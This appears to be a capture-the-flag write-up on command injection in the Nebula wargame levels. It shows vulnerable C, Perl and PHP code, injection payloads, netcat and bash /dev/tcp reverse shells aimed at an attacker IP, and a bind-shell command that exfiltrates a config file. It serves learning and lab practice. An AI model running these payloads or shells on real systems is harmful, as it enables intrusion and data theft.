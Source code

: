 ## Classic Command Injection

**Command Execute Functions in C**
```
system()
execl()
execlp()
execv()
execvp()
execle()
execve()
popen()
etc...
```
**Nebula Level02** [ [Description](https://exploit-exercises.lains.space/nebula/level02/) ]

Vulnerble Code
```
char *buffer;
buffer = NULL;
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer); 
system(buffer);
```
Getting environment variable "USER" and about to execute this string

Export USER with random value and Running Program
```
level02@nebula:~$ export USER=aaaa
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo aaaa is cool")
aaaa is cool
```
Running two Command in Linux ( Many ways )
```
level02@nebula:~$ id;whoami
uid=1003(level02) gid=1003(level02) groups=1003(level02)
level02
```
Command Injection and Solving Level02
```
/bin/echo [INPUT] is cool
/bin/echo Break;getflag;echo is cool 
level02@nebula:~$ unset USER
level02@nebula:~$ export USER="Break;getflag;echo"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo Break;getflag;echo is cool")
Break
You have successfully executed getflag on a target account
is cool
```
**Nebula Level07** [ [Description](https://exploit-exercises.lains.space/nebula/level07/) ]

Vulnerable Code
```
#!/usr/bin/perl 
use CGI qw{param}; 
print "Content-type: text/html\n\n"; 
sub ping { 
	$host = $_[0]; print("<html><head><title>Ping results</title></head><body><pre>"); 
	@output = `ping -c 3 $host 2>&1`; foreach $line (@output) {
		print "$line"; } 
	print("</pre></body></html>"); 
		} 
		# check if Host set. if not, display normal page, etc 
ping(param("Host"));
```
Backticks is alternative way to execute command in PERL [ [Ref](https://www.perlmonks.org/?node_id=380670) ]
Running Port
```
tcp6       0      0 :::7007                 :::*                    LISTEN
```
HTTP Requests from My Windows Host
```
$ curl http://192.168.43.229:7007/index.cgi?Host=192.168.43.234
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57    0    57    0     0      9      0 --:--:--  0:00:06 --:--:--     0

```
Command Injection
```
ping -c 3 $host 2>&1
ping -c 3 [ INPUT ] 2>&1
ping -c 3 ; getflag 2>&1  #No Result

#Final Payload
127.0.0.1%3bgetflag
```
Result
```
thinb@DESKTOP-U4MGHBB ~
$ curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3Bgetflag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   504    0   504    0     0    252      0 --:--:--  0:00:02 --:--:--   246
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.021 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.030 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.021/0.024/0.030/0.006 ms
You have successfully executed getflag on a target account
</pre></body></html>

```
**Netcat TCP Reverse Shell** ( Blind Command Injection )
Listenting on My Computer
```
nc -lvp1234
```
Giving a Shell with e
```
nc -e /bin/bash 192.168.43.234 1234
```
Without e
```
mknod /tmp/backpipe p/bin/sh 0</tmp/backpipe | nc **attacker_ip** 4444 1>/tmp/backpipe
```
Using Dev
```
127.0.0.1; bash -i >& /dev/tcp/192.168.43.234/1234 0>&1;
```
Don't need for Nebula 007

**Data Exfiltration with Bind Shell** ( if we need to read flag )
```
nc –l –p {port}  <  {file/to/extract}
127.0.0.1; nc.traditional -l -p 1234 < thttpd.conf
```
Payload
```
curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3B%20nc.traditional%20-l%20-p%201234%20%3C%20thttpd.conf
```
Connect
```
C:\Users\thinb>nc 192.168.43.229 1234
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
```
**Nebula Level09** [ [Description](https://exploit-exercises.lains.space/nebula/level09/) ]  

Vulnerable Code PHP
```
$contents  =  preg_replace("/(\[email (.*)\])/e",  "spam(\"\\2\")",  $contents);
```
I already explained in LOL Free Web Security Class. [ [Watch Here](https://www.youtube.com/watch?v=2hphqcUpfcE) ]

**Other Command Injection**
Python Sandbox Escape ( [Read More](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/) )
```
os.system () 
os.popen () 
ommands.getstatusoutput() 
commands.getoutput() 
commands.getstatus() 
subprocess.call(command, shell=True) 
subprocess.Popen(command, shell=True) 
pty.spawn()
```
**Python Pickle Command Injection** ( DIY )  
Level 17 in Nebula -> Do it yourself  
Level 12 in Nebula -> DIY ( Python popen)


**References**  
[https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html](https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html)
[http://man7.org/linux/man-pages/man3/asprintf.3.html](http://man7.org/linux/man-pages/man3/asprintf.3.html)
[https://www.perlmonks.org/?node_id=380670](https://www.perlmonks.org/?node_id=380670)
[https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99)
[https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection](https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection)
